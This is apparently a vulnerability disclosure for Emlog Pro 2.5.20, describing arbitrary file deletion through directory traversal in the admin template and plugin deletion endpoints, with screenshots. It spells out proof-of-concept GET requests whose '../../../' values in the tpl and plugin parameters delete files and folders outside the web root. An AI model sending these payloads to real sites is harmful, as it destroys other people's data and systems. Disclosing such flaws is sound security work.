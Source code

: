 Emlog Pro 2.5.20
Arbitrary file deletion vulnerability in the backend interface.

The Emlog Pro version 2.5.20 has an arbitrary file deletion vulnerability. This vulnerability stems from the admin/template.php component and the admin/plugin.php component. They fail to perform path verification and dangerous code filtering for deletion parameters, allowing attackers to exploit this feature for directory traversal. Complete the deletion of the specified files and folders! It undermines the integrity and stability of the system and affects its normal operation.

1. The functionality is primarily located in the backend template and plugin deletion process, as shown in the figure:
Template:
<img width="415" height="270" alt="image" src="https://github.com/user-attachments/assets/6a11c857-6739-4541-801d-eea24d423b3f" />


plugins：

<img width="415" height="293" alt="image" src="https://github.com/user-attachments/assets/608a4d5b-0cf5-4ba0-b3e1-01bf045976e1" />


1.Capture and delete APIs
Appearance：
http://localhost/admin/template.php?action=del&tpl=test&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="415" height="283" alt="image" src="https://github.com/user-attachments/assets/e6cf4080-6063-42c0-ad5f-9a96d26be19b" />

<img width="415" height="273" alt="image" src="https://github.com/user-attachments/assets/1cc4c759-5a77-49de-9bd2-b0cc01b4ce9f" />


plugins：
http://localhost/admin/plugin.php?action=del&plugin=tips/tips.php&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="416" height="258" alt="image" src="https://github.com/user-attachments/assets/48f217e7-d7cb-4026-81a4-94ae0b185796" />


2.Build the deletion payload
First, based on the deletion parameters and the location of template and plugin functions, the deletion starts in the templates and plugins of the content.

<img width="416" height="141" alt="image" src="https://github.com/user-attachments/assets/96fd4ad6-4d1d-4d4a-adcc-a4c98feb73c5" />

<img width="416" height="141" alt="image" src="https://github.com/user-attachments/assets/6e71efb7-3447-4c48-9a10-ac2b825600aa" />


So create a test folder outside the web application and perform directory traversal to delete the specified file:

<img width="415" height="241" alt="image" src="https://github.com/user-attachments/assets/108b15fb-1913-4a1a-8202-12db534fca8b" />

<img width="415" height="117" alt="image" src="https://github.com/user-attachments/assets/db9b3ef6-1495-4b44-b964-56e0924d2f0c" />



Try running the payload to delete:
The template interface successfully deleted 111.txt
use GET request:
http://localhost/admin/template.php?action=del&tpl=../../../test/111.txt&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="415" height="232" alt="image" src="https://github.com/user-attachments/assets/0889bda6-8f4a-4b34-8df6-7db0fc12f06f" />


The plugin interface successfully deleted the test folder:
use GET request:
http://localhost/admin/plugin.php?action=del&plugin=../../../test/&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="416" height="259" alt="image" src="https://github.com/user-attachments/assets/29cafc98-f366-4a06-9ae9-8197b27d8527" />


4. This implements the arbitrary file deletion function of emlog pro, which can destroy the integrity and stability of the system.
